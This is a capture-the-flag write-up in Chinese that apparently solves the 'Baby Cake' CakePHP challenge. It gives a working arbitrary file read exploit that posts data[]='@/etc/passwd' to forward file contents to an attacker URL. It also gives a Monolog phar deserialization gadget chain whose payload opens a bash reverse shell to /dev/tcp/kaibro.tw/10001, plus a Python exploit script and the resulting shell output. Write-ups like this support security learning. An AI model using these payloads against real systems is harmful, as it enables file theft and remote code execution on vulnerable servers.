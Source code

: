 # Baby Cake

## 題目

題目是一個網站，可以輸入url

他會把該url的頁面cache起來

從source code可以看到他是用Cakephp寫的

主要邏輯都在`PagesController`

可以發現只有`get` method會去cache

然後scheme限制只能`http`, `https`

## 洞

從source code慢慢往下跟，可以發現

`httpclient(Client)` -> `$method()` -> `_doRequest()` -> `_createRequest()` -> `new Request()` -> `body()` -> `addMany()` -> `add()` -> `addFile()` -> `file_get_contents($value)`

這邊`$value`是我們可以控制的，他來源是`getQuery('data')`

只需要滿足`(is_string($value) && strlen($value) && $value[0] === '@')`即可走到`file_get_contents()`

所以利用方式就是

POST `data[]="@filename"`，這個filename就會丟進`file_get_contents`

並且他會用`fopen`將此檔案內容送到我們指定的`url`

所以一個簡單的任意讀檔exploit如下:

```
import requests
s = requests.session()
s.post('http://13.230.134.135/', params={'url': 'http://yourip:yourport', 'data[]': '@/etc/passwd'})
```

可是這題要RCE，單純只讀檔很難RCE

後來比賽結束前才想到，`file_get_contents()`可以塞php wrapper，而body.cache又可以當作上傳檔案

那不就可以用經典的`phar://`去unserailize!

接著只需要構造pop chain即可

可以從phpggc看到

```
Monolog/RCE1          1.18 <= 1.23      rce              __destruct
```

而從`composer.json`也可以看到`"monolog/monolog": "^1.23"`，版本剛好在範圍內!

所以就直接構造payload:

```php
<?php

namespace GadgetChain\Monolog;

class RCE1 extends \PHPGGC\GadgetChain\RCE
{
    public $version = '1.18 <= 1.23';
    public $vector = '__destruct';
    public $author = 'cf';

    public function generate(array $parameters)
    {
        $code = "bash -c 'bash -i >& /dev/tcp/kaibro.tw/10001 0>&1'";

        @unlink('exp.phar');
        $p = new \Phar('exp.phar');
        $p->startBuffering();
        $p->setStub("<?php __HALT_COMPILER();?>");
        $p->addFromString("test.txt", "test");
        $p->setMetadata(new \Monolog\Handler\SyslogUdpHandler(new \Monolog\Handler\BufferHandler(['current', 'system'],[$code, 'level' => null])));
        $p->stopBuffering();

    }
}

```

跑完會生成`exp.phar`

上傳到自己Server: kaibro.tw/exp.phar


exp.py:

```python
import requests                                                                                                        
import sys
import hashlib

m = hashlib.md5()
ip = '1.2.3.4'

r = requests.get('http://13.230.134.135/?url='+sys.argv[1])

s = requests.session()
m.update(sys.argv[1])
pay = "phar:///var/www/html/tmp/cache/mycache/"+ip+"/"+m.hexdigest()+"/body.cache"
print pay
print(s.post('http://13.230.134.135/', params={'url': 'http://kaibro.tw:6666/', 'data[]': '@'+pay}))

```

接著跑`python exp.py http://kaibro.tw/exp.phar`即可reverse shell

```
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::10001
Ncat: Listening on 0.0.0.0:10001
Ncat: Connection from 13.230.134.135.
Ncat: Connection from 13.230.134.135:39072.
bash: cannot set terminal process group (7953): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-172-31-24-186:/$ ls -a
ls -a
.
..
bin
boot
dev
etc
flag
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
read_flag
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
www
```

`hitcon{smart_implementation_of_CURLOPT_SAFE_UPLOAD><}`
